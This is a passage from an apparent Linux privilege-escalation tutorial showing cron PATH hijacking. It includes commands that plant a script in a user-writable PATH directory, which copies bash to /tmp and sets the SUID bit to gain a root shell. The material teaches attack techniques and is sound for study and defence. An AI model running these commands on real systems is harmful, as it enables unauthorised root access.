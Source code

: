 ```bash
cat /etc/crontab
```

![Privilege Escalation](./Image/41.png)

Additionally, you can list systemd timers using:

```bash
systemctl list-timers --all
```

## Escalation via Cron Path Manipulation

In the output of `cat /etc/crontab`, you might notice a `PATH` variable where the first directory it searches is `/home/user`. If it doesn’t find the required script there, it moves on to the next directory:

![Privilege Escalation](./Image/42.png)

To exploit this, we can hijack a script, such as `overwrite.sh`, as follows:

```bash
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh
chmod +x /home/user/overwrite.sh
```

Once that’s done, you can execute the newly created `bash` file in the `/tmp` directory with the following command:
